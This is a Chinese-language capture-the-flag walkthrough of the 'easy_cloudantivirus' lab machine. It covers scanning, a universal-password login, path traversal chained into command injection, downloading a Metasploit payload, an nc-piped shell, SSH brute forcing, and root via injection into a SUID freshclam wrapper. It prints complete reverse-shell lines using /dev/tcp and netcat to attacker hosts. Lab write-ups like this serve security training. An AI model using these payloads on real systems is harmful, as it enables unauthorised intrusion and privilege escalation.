2.easy_cloudantivirus

主机发现

```
nmap -sn 192.168.159.1/24
```

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# arp-scan -l               
Interface: eth0, type: EN10MB, MAC: 00:0c:29:5a:99:73, IPv4: 192.168.159.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.159.1   00:50:56:c0:00:08       VMware, Inc.
192.168.159.2   00:50:56:fb:34:d2       VMware, Inc.
192.168.159.136 00:0c:29:f5:18:42       VMware, Inc.
192.168.159.254 00:50:56:ef:44:30       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.945 seconds (131.62 hosts/sec). 4 responded

```

>arping
>
>```
>for i in $(seq 1 254); do arping -c 2 192.168.159.$i; done
>```

端口扫描

`nmap -T4 -p- 192.168.159.136`

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -p- 192.168.159.136                            
^[[3~Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 15:33 CST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 100.00% done; ETC: 15:33 (0:00:00 remaining)
Nmap scan report for 192.168.159.136
Host is up (0.00087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 00:0C:29:F5:18:42 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.27 seconds

```

服务扫描

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -sV 192.168.159.136
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 15:30 CST
Nmap scan report for 192.168.159.136
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
MAC Address: 00:0C:29:F5:18:42 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds

```

访问 web 服务，fuzz 测试一下



sqlmap 跑一下，`python sqlmap.py -r test.txt --level 5 --risk 3 --random-agent`，看到有重定向，猜测使用万能密码登录成功，尝试万能密码






或者在报错的这个位置可以看到服务的部分源码，可以看出来是万能密码



测试有目录穿越的扫描功能



猜测扫描功能的构成是由某个扫描脚本拼接路径构成，即上述可表示为 `scan ../../../../../etc/passwd`，尝试通过命令分隔符进行命令执行，经测试，使前面的 `scan` 执行失败用 `||` 或直接用 `;` 即可进行命令分割执行其他命令。（注：使用 `&` 进行分割时，`&` 需要进行 url 编码）

在 kali 上开一个服务器 `python3 -m http.server 60312`，在靶机上用 wget 下载 msf 的马，并赋予执行权限，msf 开启监听，运行





`filename=../../../../../etc/passwd ; chmod %2bx ./shell.elf 2>%261` 加权限





>nc 串联
>
>`hello| nc 10.0.2.7 3333 | /bin/bash | nc 10.0.2.7 4444`
>
>通过管道符，在 3333 端口输入命令，命令会传入 bash，然后结果会返回到 4444，开两个 nc即可

下载数据库文件到本地，用sqlite3打开数据库文件并查看




查看可以登录的用户



将用户和密码组成爆破密码本，进行22端口ssh爆破



失败，查看上级目录，注意这个文件，里面有他的c源码，并且这个可执行文件具有suid权限并且为root属主





```c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}

```

审计源码可得知，可以进行命令的拼接，最后的命令为

```
./update_cloudav ";/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.159.128/5555 0>&1'"
```



成功获得root权限
